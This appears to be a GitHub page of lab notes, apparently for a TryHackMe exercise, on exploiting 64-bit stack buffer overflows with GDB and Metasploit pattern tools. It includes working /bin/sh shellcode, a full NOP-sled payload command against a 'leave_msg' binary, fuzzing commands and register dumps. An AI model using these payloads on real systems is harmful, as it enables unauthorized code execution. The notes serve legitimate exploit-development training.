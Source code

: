# GDB

## THM 64 Bit

Hint 1: Step to overflow 64-bits buffer

Step 1: Generate a pattern, copy and paste this as input to the binary (use pattern_create.rb from
Metasploit)  
Step 2: Read and copy the value from register RBP for the offset.  
Step 3: Calculate the offset. (use pattern_offset.rb from Metasploit)  
Step 4: Try control the register RIP with the following payload  
Junk*(offset value) + 8 bytes of dummy  
Step 5: Read the stack or register RSP to find a suitable return address.  
Step 6: The general payload should be like below  
Nop + shellcode + Junks + return address  

Hint 2: Working shellcode

\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05

Hint 3: Running the payload with the binary

(python -c "print('\x90'*(fill in the number) + (shellcode) + 'A'*(fill in the number)
+(return address))";cat) | ./bof64




Use python2 !

```console
Running Payload outside GDB
$ ./leave_msg $(python -c "print '\x55' * 1841 + '\x90' * 124 + '\xda\xc3\xb8\x7d\x24\xf0\x6e\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\x83\xea\xfc\x31\x42\x13\x03\x3f\x37\x12\x9b\x8e\xec\x25\x87\xa3\x51\x99\x22\x41\xdf\xfc\x03\x23\x12\x7e\xf0\xf2\x1c\x40\x3a\x84\x14\xc6\x3d\xec\xd9\x38\xbe\xed\x4d\x3b\xbe\xfc\xd1\xb2\x5f\x4e\x8f\x94\xce\xfd\xe3\x16\x78\xe0\xc9\x99\x28\x8a\xbf\xb6\xbf\x22\x28\xe6\x10\xd0\xc1\x71\x8d\x46\x41\x0b\xb3\xd6\x6e\xc6\xb4' + '\x2c\xd7\xff\xff'")
```

## Commands

```console
(gdb) set disassembly-flavor intel
- Set the Intel syntax

(gdb) disassemble main
- disassemble the program's main function

(gdb) x/2000xb $esp+500
-examine 
```

## Fuzzing

```console
$ echo $(python -c 'print("A" * 650)') | ./bof
Enter some string:
Segmentation fault (core dumped)
```

## Using GDB
Hello there can anyone explain me the difference between these to commands? Sometime the first one is working and sometimes only the second one 

```console
(gdb) run $(python -c 'print("A" * 650)')
(gdb) r < <(python -c 'print("A" * 650)')
```

```console
$ gdb -q ./bof
Reading symbols from ./bof...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) r < <(python -c 'print("A" * 650)')
Starting program: /home/des/bof < <(python -c 'print("A" * 650)')
Enter some string:

Program received signal SIGSEGV, Segmentation fault.
0x000055555555484e in foo ()
(gdb) i r
rax            0x0      0
rbx            0x3e9    1001
rcx            0x0      0
rdx            0x0      0
rsi            0x555555554956   93824992233814
rdi            0x7ffff7dd0760   140737351845728
rbp            0x4141414141414141       0x4141414141414141
rsp            0x7fffffffe3b8   0x7fffffffe3b8
r8             0xffffffffffffffed       -19
r9             0x25e    606
r10            0x5555557564cb   93824994337995
r11            0x555555554956   93824992233814
r12            0x3e9    1001
r13            0x7fffffffe4b0   140737488348336
r14            0x0      0
r15            0x0      0
rip            0x55555555484e   0x55555555484e <foo+84>
eflags         0x10206  [ PF IF RF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0

(gdb) x/xg $rsp
0x7fffffffe3b8: 0x3775413675413575
```

Create a pattern with 650 bytes, run it and check the offset with the **rsp** `0x3775413675413575`

```console
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x3775413675413575
[*] Exact match at offset 616
```
